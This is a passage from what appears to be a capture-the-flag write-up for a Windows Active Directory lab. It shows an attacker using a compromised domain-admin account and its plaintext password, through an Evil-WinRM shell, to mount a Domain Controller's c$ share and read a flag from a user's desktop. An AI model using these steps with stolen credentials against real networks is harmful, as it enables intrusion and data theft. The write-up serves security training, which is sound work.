 
Since p00_adm is now a domain admin, it can access the c$ share on the Domain Controller and grab the flag I found on mr3ks’s desktop.

```bash
*Evil-WinRM* PS C:\Temp> net use \\DC.intranet.poo\c$ /u:intranet.poo\p00_adm 'ZQ!5t4r'
The command completed successfully.

*Evil-WinRM* PS C:\Temp> dir \\DC.intranet.poo\c$\users\

    Directory: \\DC.intranet.poo\c$\users

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        3/15/2018   1:20 AM                Administrator
d-----        3/15/2018  12:38 AM                mr3ks
d-r---       11/21/2016   3:24 AM                Public

*Evil-WinRM* PS C:\Temp> type \\DC.intranet.poo\c$\users\mr3ks\desktop\flag.txt
POO{[REDACTED]}

```